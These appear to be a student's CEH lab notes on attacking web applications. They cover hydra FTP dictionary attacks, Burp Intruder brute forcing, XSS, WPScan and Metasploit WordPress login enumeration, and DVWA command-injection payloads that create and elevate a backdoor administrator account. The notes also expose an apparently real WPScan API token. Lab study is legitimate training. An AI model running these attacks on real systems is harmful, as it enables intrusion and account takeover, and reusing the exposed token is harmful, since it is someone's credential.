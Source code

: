 **Lab2-Task1: Crack FTP Credentials using a Dictionary Attack**

-   nmap -p 21 [IP]
-   **hydra -L usernames.txt -P passwords.txt ftp://10.10.10.10**

**Lab2-Task1: Perform a Brute-force Attack using Burp Suite**

-   Set proxy for browser: 127.0.0.1:8080
-   Burpsuite
-   Type random credentials
-   capture the request, right click-&gt;send to Intrucder
-   Intruder-&gt;Positions
-   Clear $
-   Attack type: Cluster bomb
-   select account and password value, Add $
-   Payloads: Load wordlist file for set 1 and set 2
-   start attack
-   **filter status==302**
-   open the raw, get the credentials
-   recover proxy settings

**Lab2-Task3: Exploit Parameter Tampering and XSS Vulnerabilities in Web Applications**

-   Log in a website, change the parameter value (id )in the URL
-   Conduct a XSS attack: Submit script codes via text area

**Lab2-Task5: Enumerate and Hack a Web Application using WPScan and Metasploit**

-   **wpscan --api-token hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads --url** **[http://10.10.10.16:8080/CEH](http://10.10.10.16:8080/CEH)** **--plugins-detection aggressive --enumerate u**
    -   **--enumerate u: Specify the enumeration of users**
    -   **API Token: Register at** [**https://wpscan.com/register**](https://wpscan.com/register)
    -   **Mine: hWt9qrMZFm7MKprTWcjdasowoQZ7yMccyPg8lsb8ads**
-   service postgresql start
-   msfconsole
-   **use auxiliary/scanner/http/wordpress_login_enum**
-   show options
-   **set PASS_FILE password.txt**
-   **set RHOST 10.10.10.16**
-   **set RPORT 8080**
-   **set TARGETURI** **[http://10.10.10.16:8080/CEH](http://10.10.10.16:8080/CEH)**
-   **set USERNAME admin**
-   run
-   Find the credential

**Lab2-Task6: Exploit a Remote Command Execution Vulnerability to Compromise a Target Web Server (DVWA low level security)**

-   If found command injection vulnerability in an input textfield
-   | hostname
-   | whoami
-   **| tasklist| Taskkill /PID /F**
    -   **/PID: Process ID value od the process**
    -   **/F: Forcefully terminate the process**
-   | dir C:\
-   **| net user**
-   **| net user user001 /Add**
-   **| net user user001**
-   **| net localgroup Administrators user001 /Add**
-   Use created account user001 to log in remotely


